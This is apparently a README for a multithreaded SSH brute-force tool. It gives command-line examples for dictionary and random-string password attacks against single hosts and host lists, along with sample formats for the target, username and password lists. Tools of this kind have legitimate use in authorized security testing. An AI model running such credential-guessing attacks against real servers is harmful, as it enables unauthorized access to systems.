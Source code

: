 # SSH Brute Forcer

Simple multi threaded SSHBrute Forcer, Standard Brute Forcing and Dictonary based attacks.

Note: The brute force method is really bad just trys random strings with different lengths. Also it will attempt to create a lot of threads if you say 1000 attempts it will create 1000 threads.. Why you might ask because no one should really ever use this feature.

### Single Ip Dictonary Attack
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 8022 -U ./usernames.txt -P ./passwords.txt
```
### Single Ip Dictonary Attack Specifying threads and timeout
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 8022 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Multiple Ip Dictonary Attack
```
python SSHBruteForce.py -I ./targets.txt -d True -p 8022 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Single Ip BruteForce Attack
```
python SSHBruteForce.py -i 127.0.0.1 -p 22 -a 100 -l 8
```

### Multiple Ip BruteForce Attack
```
python SSHBruteForce.py -I targets.txt -p 22 -a 100 -l 8
```

* Example of `targets.txt`:
```
127.0.0.1:22
127.0.0.2:23
```

* Example of `usernames.txt`:
```
jimmyj
derpt
marth
```

* Example of `passwords.txt`:
```
love
god
seem
secret
```
